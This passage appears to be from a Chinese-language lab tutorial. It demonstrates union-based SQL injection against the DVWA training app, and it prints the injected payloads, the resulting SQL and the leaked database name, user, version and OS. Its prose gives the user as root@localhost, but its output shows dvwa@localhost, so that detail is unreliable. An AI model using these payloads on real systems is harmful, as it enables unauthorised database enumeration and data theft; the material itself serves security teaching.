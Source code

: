 ```
Unknown column '3' in 'order clause
```

（3）使用 union select 联合查询继续获取信息

union 运算符可以将两个或两个以上 select 语句的查询结果集合并成一个结果 集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询 的列数相同，而我们之前已经知道了主查询列数为 2。

输入 `1' union select database(),user()#` 进行查询 ：

- database()将会返回当前网站所使用的数据库名字
- user()将会返回执行当前查询的用户名

```
# 输入框
1' union select database(),user()#'
# 生成SQL
SELECT first_name, last_name FROM users WHERE user_id = '1'
union select database(),user()#'
```

```
ID: 1' union select database(),user()#'
First name: admin
Surname: admin
ID: 1' union select database(),user()#'
First name: dvwa
Surname: dvwa@localhost
```

通过上图返回信息，我们成功获取到：

- 当前网站使用数据库为 dvwa
- 当前执行查询用户名为 root@localhost

（4）同理我们再输入 `1' union select version(),@@version_compile_os`# 进行 查询：

```
# 输入框
1' union select version(),@@version_compile_os#
# 生成SQL
SELECT first_name, last_name FROM users WHERE user_id = '1'
union select version(),@@version_compile_os#
```

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

```
ID: 1' union select version(),@@version_compile_os#
First name: admin
Surname: admin
ID: 1' union select version(),@@version_compile_os#
First name: 5.1.41-3ubuntu12.6-log
Surname: debian-linux-gnu
```

（5）接下来我们尝试获取 dvwa 数据库中的表名。 information_schema 是 mysql 自带的一张表，这张数据表保存了 Mysql 服 务器所有数据库的信息：如数据库名，数据库的表，表栏的数据类型与访问权 限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。
